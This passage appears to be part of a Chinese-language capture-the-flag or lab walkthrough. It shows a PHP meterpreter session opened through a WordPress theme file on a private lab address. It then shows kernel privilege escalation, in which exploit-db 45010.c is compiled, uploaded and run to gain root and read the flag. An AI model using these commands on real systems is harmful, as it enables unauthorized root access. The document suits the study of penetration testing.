访问 <http://192.168.0.108/wordpress/wp-content/themes/twentynineteen/secret.php（wordpress开源，通过分析源码获取路径）>

之后监听终端显示`meterpreter>`可输入命令。

#### 提权

监听端口

```shell
meterpreter> getuid
meterpreter> sysinfo #获取系统信息
```

系统信息：

```
Computer    : ubuntu
OS          : Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64
Meterpreter : php/linux
```

获取内核漏洞

打开第二个终端，进入 msfconsole

```shell
msf6> searchsploit 16.04 ubuntu
```

![image-20221207163638855.png](https://img.ghostliner.top/hXBGQE.png)

使用`linux/local/45010.c`脚本，文件路径：`/usr/share/exploitdb/exploits/linux/local/45010.c`

```shell
# 拷贝
cp /usr/share/exploitdb/exploits/linux/local/45010.c /root
# 编译
gcc 45010.c -o 45010
```

终端 1

```shell
meterpreter> upload /root/45010 /tmp/45010
meterpreter> shell #开启shell
cd /tmp
chmod +x 45010
./45010
whoami
# 回显root，提权成功
cd /root
ls
# enc
# enc.cpp
# enc.txt
# key.txt
# root.txt
# sql.py
# t.sh
# wfuzz
# wordpress.sql

cat root.txt
b2b17036da1de94cfb024540a8e7075a
```
